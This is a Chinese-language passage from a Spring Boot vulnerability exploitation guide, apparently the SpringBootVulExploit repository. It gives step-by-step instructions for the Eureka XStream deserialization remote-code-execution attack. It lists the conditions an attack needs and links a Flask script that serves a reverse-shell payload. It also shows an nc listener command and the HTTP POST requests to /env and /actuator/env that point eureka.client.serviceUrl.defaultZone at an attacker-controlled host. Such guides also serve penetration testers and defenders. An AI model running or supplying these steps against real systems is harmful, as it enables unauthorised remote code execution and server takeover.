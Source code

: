 

#### 漏洞环境：

[repository/springcloud-snakeyaml-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springcloud-snakeyaml-rce)

正常访问：

```
http://127.0.0.1:9092/env
```



### 0x03：eureka xstream deserialization RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标使用的  `eureka-client` < 1.8.7（通常包含在 `spring-cloud-starter-netflix-eureka-client` 依赖中）
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）



#### 利用方法：

##### 步骤一：架设响应恶意 XStream payload 的网站

提供一个依赖 Flask 并符合要求的 [python 脚本示例](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-xstream-rce.py)，作用是利用目标 Linux 机器上自带的 python 来反弹shell。

使用 python 在自己控制的服务器上运行以上的脚本，并根据实际情况修改脚本中反弹 shell 的 ip 地址和 端口号。



##### 步骤二：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lvp 443
```



##### 步骤三：设置 eureka.client.serviceUrl.defaultZone 属性

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example"}
```

